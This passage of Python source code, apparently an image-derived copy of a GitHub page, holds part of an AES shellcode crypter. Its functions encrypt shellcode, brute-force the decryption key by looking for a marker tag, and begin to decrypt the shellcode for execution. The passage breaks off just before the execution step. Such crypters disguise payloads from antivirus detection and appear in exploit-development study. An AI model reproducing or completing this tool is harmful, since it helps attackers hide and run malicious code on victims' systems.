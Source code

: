 ```python
		for x in bytearray(encd):
			output += "\\x"
			output += '%02x'% x

		output = output.replace("\\x", r'\\x')

		print("\n[+] Encrypted Shellcode: " + output)

	except:
		print "Something went wrong with the encryption process."


def decrypt():
	try:
		global shellcode
		global iv
		global keyList
		#here we're just trying every possible key until the decryption process spots our '\\xff\\xff...' tag and knows it found the right one
		print("\n[+] Bruteforcing key for decryption...")
		for x in keyList:
			aes = AES.new(x, AES.MODE_CBC, iv)
			decrypt = aes.decrypt(shellcode)
			output = "" 
			for x in bytearray(decrypt):		
				output += "\\x"
				output += '%02x'% x
			if "\\xff\\xff\\xff\\xff\\xff" not in output:
				continue
			else:
				output = output[28:]
				output = output.replace("\\x", r'\\x')				
				print("[+] Decrypted Shellcode: " + output)
				break
	
	except: 
		print "[!] Something went wrong with the decryption process."


def execute():
	try:
		global shellcode
		global iv
		global keyList
		#same decryption process as above
		for x in keyList:
			aes = AES.new(x, AES.MODE_CBC, iv)
			decrypt = aes.decrypt(shellcode)
			output = "" 
			for x in bytearray(decrypt):		
				output += "\\x"
				output += '%02x'% x
			if "\\xff\\xff\\xff\\xff\\xff" not in output:
				continue
			else:
				output = output[28:]
				output = output.replace("\\x", r'\x')				
				break
	
	except: 
		print "[!] Something went wrong with the decryption process."

	try:
```